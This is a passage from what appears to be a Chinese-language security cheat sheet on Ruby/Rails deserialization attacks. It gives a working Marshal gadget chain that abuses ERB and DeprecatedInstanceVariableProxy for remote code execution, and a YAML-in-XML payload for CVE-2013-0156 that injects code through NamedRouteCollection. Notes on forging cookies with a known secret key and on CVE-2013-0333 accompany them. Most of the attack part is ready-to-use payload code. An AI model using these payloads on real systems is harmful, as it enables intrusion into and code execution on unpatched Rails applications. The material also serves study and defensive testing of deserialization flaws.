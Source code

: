 this one is not self-executing

this one actually relies on rails invoking a method on the resulting object after the deserialization

```ruby
erb = ERB.allocate
erb.instance_variable_set :@src, "`id`"
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result, "foo", ActiveSupport::Deprecation
hash = {depr => 'something'}
marshalled = Marshal.dump(hash)
print marshalled
```

在ERB上，當result或run method被call時，@src的string會被執行

- 常見使用情境：
  - 以Marshal為Cookie Serializer時，若有`secret_key`，則可以偽造Cookie
  - 也可以透過`DeprecatedInstanceVariableProxy`去執行ERB的`result`來RCE
    - 當`DeprecatedInstanceVariableProxy`被unmarshal，rails session對他處理時遇到不認識的method就會呼叫`method_missing`，導致執行傳入的ERB
    - `@instance.__send__(@method)`

- Cookie Serializer
  - Rails 4.1以前的Cookie Serializer為Marshal
  - Rails 4.1開始，默認使用JSON

## Ruby/Rails YAML

- CVE-2013-0156
  - 舊版本的Rails中，`XML`的node可以自訂type，如果指定為`yaml`，是會被成功解析的
  - 若反序列化`!ruby/hash`，則相當於在物件上調用`obj[key]=val`，也就是`[]=`方法
  - 而這個`ActionDispatch::Routing::RouteSet::NamedRouteCollection`中的`[]=`方法中，有一條代碼路徑可以eval
  - `define_hash_access`中可以看到`module_eval`，裏頭的`selector`來自`name`
  - 因為他還會對`value`調用`defaults` method，所以可以利用`OpenStruct`來構造
    - `函數名=>返回值`的對應關係存放在`@table`中
  - Payload:
  ```ruby
  xml = %{
  <?xml version="1.0" encoding="UTF-8"?>
  <bingo type='yaml'>
  ---| !ruby/hash:ActionDispatch::Routing::RouteSet::NamedRouteCollection
  'test; sleep(10); test' :
   !ruby/object:OpenStruct
    table:
     :defaults: {}
  </bingo>

  }.strip
  ```
- CVE-2013-0333
  - Rails 2.3.x和3.0.x中，允許`text/json`的request轉成`YAML`解析
  - `Yaml`在Rails 3.0.x是預設的`JSON Backend`
  - 出問題的地方在於`YAML.load`前的`convert_json_to_yaml`，他不會檢查輸入的JSON是否合法
  - 一樣可以透過`ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access`的`module_eval`來RCE

